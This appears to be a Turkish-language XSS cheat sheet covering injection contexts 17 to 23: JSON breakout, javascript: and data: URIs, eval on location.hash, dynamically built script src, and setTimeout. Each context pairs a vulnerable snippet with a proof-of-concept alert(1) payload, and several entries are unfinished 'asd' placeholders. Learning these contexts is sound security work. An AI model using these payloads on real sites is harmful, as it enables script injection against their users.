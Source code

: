 <h1>CONTEXTS</h1>
<br>

<h2>🔹 17. JavaScript Object Context (JSON gibi)</h2>
<h4>Input bir JSON içeriği içinde döner ama frontend JS bu veriyi parse edip kullanırsa, XSS olur.</h4><br>

📌 Örnek:  
`{"name":"PAYLOAD"}`  
<br>
🎯 Exploit:  
```html
\";alert(1);//
```
<br>



<h2>🔹 18. JavaScript URI inside <form> / <object> / <embed></h2>
<h4>asd</h4><br>

📌 Örnek:  
`<form action="javascript:alert(1)">`  
veya  
`<embed src="data:text/html;base64,...">`
<br>

🎯 Exploit:  
```html
asd
```
<br> 



<h2>🔹 19. Base64 / Data URI Context</h2>
<h4>Bazı yerlerde data: URL ile XSS yapılabilir.</h4><br>

📌 Örnek:  
`asd`  
<br>
🎯 Exploit:  
```html
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
```
<br>


<h2>🔹 20. XHR / Fetch Injection via DOM Sinks</h2>
<h4>JS içindeki fetch(), XMLHttpRequest(), document.write(), eval() gibi API'ler üzerinden input kullanılıyorsa DOM XSS riski vardır.</h4><br>

📌 Örnek:  
`eval(location.hash.substring(1))`
<br>  
🎯 Exploit:  
```bash
http://site.com/#alert(1)
```
<br>



<h2>🔹 21. WebSocket / PostMessage / Custom Protocol Context</h2>
<h4>Az bilinir ama bazı uygulamalar postMessage, websocket içeriği olarak input’u alır ve DOM’a yansıtırsa yine XSS doğar.</h4><br>

📌 Örnek:  
`asd`  
<br>
🎯 Exploit:  
```html
asd
```
<br>



<h2>🔹 22. Script src dynamically built</h2>
<h4>asd</h4><br>

📌 Örnek:  
`var script = document.createElement("script");
script.src = "/api/" + userInput;
document.body.appendChild(script);
`  
<br>
🎯 Exploit:  
```html
";alert(1)//
```
<br>



<h2>🔹 23. SetTimeout / setInterval / Function constructor</h2>
<h4>asd</h4><br>

📌 Örnek:  
`setTimeout(userInput, 1000)`  
<br>
🎯 Exploit:  
```js
alert(1)
```
<br>
